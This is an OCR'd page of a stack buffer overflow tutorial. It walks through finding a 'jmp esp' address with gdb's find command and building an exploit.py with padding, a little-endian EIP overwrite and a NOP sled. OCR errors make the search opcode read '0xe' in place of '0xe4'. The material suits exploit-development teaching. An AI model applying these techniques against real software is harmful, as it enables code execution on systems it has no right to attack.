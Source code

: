 ```
0xf7ffc000 0xf7ffd000 0x1000 0x25000 /lib32/ld-2.27.so
0xf7ffd000 0xf7ffe000 0x1000 0x26000 /lib32/ld-2.27.so
0xfffdd000 0xffffe000 0x21000 0x0 [stack]
```
No that we have the memory layout for this program we need to select a start and end to search
through for a "jmp esp". In order to do that we take the start address after the heap and the end
address before the stack.

### NOTE

```
Just taking the start and end address of the first line after the heap is sufficient, but
it can be easier to remember we are looking at the memory between the heap and
stack.
```
To search for "jmp esp" run the command:

```
find /b 0xf7de2000 , 0xf7ffe000, 0xff, 0xe
```
### IMPORTANT

```
The start and end address can be different based on the program and the
system that program executes on. The 0xff and 0xe4 does not change.
```
This command searches for the opcodes ff e4 in the memory range provided. These op codes equate
to "jmp esp".

The shown memory addresses are approximate. They will change depending on the machine.

This command should return a ton of memory addresses. Choose the 2nd or 3rd memory address
and copy it into your exploit code. Remember that we are on a little endian cpu architecture, so hex
for the memory address will have to be submitted in reverse.

exploit.py

```
buffer = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```
```
#eip = "BBBB"
#jmp esp = 0xff77aabb
```
```
eip = "\xbb\xaa\x77\xff"
```

```
nop = '\x90' * 5
```
```
print(buffer + eip + nop)
```
Run this in and ensure that the ESP contains all \x90’s when it crashes. This will mean that your
memory address returned the flow of execution to the top of the stack where you nop sled was
loaded.
